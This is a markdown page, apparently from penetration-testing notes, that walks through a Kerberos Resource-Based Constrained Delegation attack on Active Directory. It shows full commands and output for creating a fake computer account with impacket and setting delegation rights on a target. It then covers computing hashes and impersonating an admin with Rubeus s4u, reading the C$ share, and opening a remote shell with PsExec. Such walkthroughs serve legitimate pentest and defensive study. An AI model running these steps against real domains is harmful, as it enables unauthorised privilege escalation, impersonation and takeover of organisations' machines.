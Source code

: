 ```yaml
---
title : "RBCD-attack"
# pre : ' '
description : "Resource-Based Constrained Delegation Attack (Kerberos RBCD / KRBCD)."
date : 2021-02-17T15:54:06+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## Kerberos Resource-Based Constrained Delegation Attack (Kerberos RBCD / KRBCD)

Resource-Based Constrained Delegation - Generic write abuse.

### Installation

```plain
git clone https://github.com/tothi/rbcd-attack
```

### Abusing

#### Create the computer object needed for the operation

```plain
$ addcomputer.py -computer-name 'RECEPTION$' -computer-pass JteYeCym2JxkH -dc-ip 10.10.10.10 offsec.nl/jane:'Welkom123!'
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Successfully added machine account RECEPTION$ with password JteYeCym2JxkH.
```

#### Set rights for impersonation

```plain
$ ./rbcd.py -f RECEPTION -t WIN10-TARGET -dc-ip 10.10.10.10 offsec.nl\\jane:'Welkom123!'
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Starting Resource Based Constrained Delegation Attack against WIN10-TARGET$
[*] Initializing LDAP connection to 10.10.10.10
[*] Using offsec.nl\jane account with password ***
[*] LDAP bind OK
[*] Initializing domainDumper()
[*] Initializing LDAPAttack()
[*] Writing SECURITY_DESCRIPTOR related to (fake) computer `RECEPTION` into msDS-AllowedToActOnBehalfOfOtherIdentity of target computer `WIN10-TARGET`
[*] Delegation rights modified succesfully!
[*] RECEPTION$ can now impersonate users on WIN10-TARGET$ via S4U2Proxy
```

#### Create RC4-HMAC hash for computer object

```plain
Z:\> .\Rubeus.exe hash /password:JteYeCym2JxkH /user:RECEPTION /domain:offsec.nl

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0


[*] Action: Calculate Password Hash(es)

[*] Input password             : JteYeCym2JxkH
[*] Input username             : RECEPTION
[*] Input domain               : offsec.nl
[*] Salt                       : offsec.nlRECEPTION
[*]       rc4_hmac             : C3CA46DA95A2B9CAB36C31A3202CE355
[*]       aes128_cts_hmac_sha1 : D9C29470D497E61186549BCC5517E736
[*]       aes256_cts_hmac_sha1 : C4CB81B0428A8384445C981575393BADC6F468396B44D39F166754C5A896FD8A
[*]       des_cbc_md5          : 528F4FE3A219FB6E
```

#### Impersonate any user from the Active Directory

```plain
PS z:\> .\rubeus.exe s4u /user:RECEPTION$ /rc4:C3CA46DA95A2B9CAB36C31A3202CE355 /impersonateuser:JOHNDO-ADM /msdsspn:cifs/WIN10-TARGET.offsec.nl /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[*] Action: S4U

[*] Using rc4_hmac hash: C3CA46DA95A2B9CAB36C31A3202CE355
[*] Building AS-REQ (w/ preauth) for: 'offsec.nl\RECEPTION$'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIE5jCCBO[...REDACTED...]J2aWNlcy5ubA==


[*] Action: S4U

[*] Using domain controller: DC01.offsec.nl (10.10.10.10)
[*] Building S4U2self request for: 'RECEPTION$@offsec.nl'
[*] Sending S4U2self request
[+] S4U2self success!
[*] Got a TGS for 'JOHNDO-ADM@offsec.nl' to 'RECEPTION$@offsec.nl'
[*] base64(ticket.kirbi):

      doIJHjCCCRqgAwI[...REDACTED...]DAgEBoQgwBhsET0NEJA==

[*] Impersonating user 'JOHNDO-ADM' to target SPN 'cifs/WIN10-TARGET.offsec.nl'
[*] Using domain controller: DC01.offsec.nl (10.10.10.10)
[*] Building S4U2proxy request for service: 'cifs/WIN10-TARGET.offsec.nl'
[*] Sending S4U2proxy request
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/WIN10-TARGET.offsec.nl':

      doIKAjCCCf6gAw[...REDACTED...]VJWSUNFUy5OTA==
[+] Ticket successfully imported!
```

#### Check ticket is successfully imported

```plain
PS z:\> klist

Current LogonId is 0:0x7b698

Cached Tickets: (1)

#0>     Client: JOHNDO-ADM @ offsec.nl
        Server: cifs/WIN10-TARGET.offsec.nl @ offsec.nl
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40210000 -> forwardable pre_authent name_canonicalize
        Start Time: 2/17/2021 15:12:51 (local)
        End Time:   2/18/2021 1:12:51 (local)
        Renew Time: 0
        Session Key Type: AES-128-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```

#### Browse the system using the ticket

```plain
PS z:\> dir \\WIN10-TARGET.offsec.nl\c$

    Directory: \\WIN10-TARGET.offsec.nl\c$

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         9/27/2018  11:39 AM                Intel
d-----         5/23/2020   8:02 AM                PerfLogs
d-r---         8/19/2020   1:20 PM                Program Files
d-r---         7/10/2020  10:30 AM                Program Files (x86)
da----          2/4/2021   8:11 AM                Temp
d-r---         9/29/2020  10:33 AM                Users
d-----         2/17/2021   2:34 PM                Windows
```

#### Run PsExec

```plain
PS z:\> PsExec.exe \\WIN10-TARGET.offsec.nl cmd

PsExec v2.2 - Execute processes remotely
Copyright (C) 2001-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

Microsoft Windows [Version 10.0.18363.1316]
(c) 2019 Microsoft Corporation. All rights reserved.
C:\WINDOWS\system32>whoami
offsec.nl\JOHNDO-ADM
```

### URL list

* [iRED.team - Kerberos Resource-based Constrained Delegation: Computer Object Take Over](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution)
* [Github.com - Abusing Kerberos Resource-Based Constrained Delegation](https://github.com/tothi/rbcd-attack)
* [harmj0y.net - A case study in wagging the dog computer takeover](https://www.harmj0y.net/blog/activedirectory/a-case-study-in-wagging-the-dog-computer-takeover/)
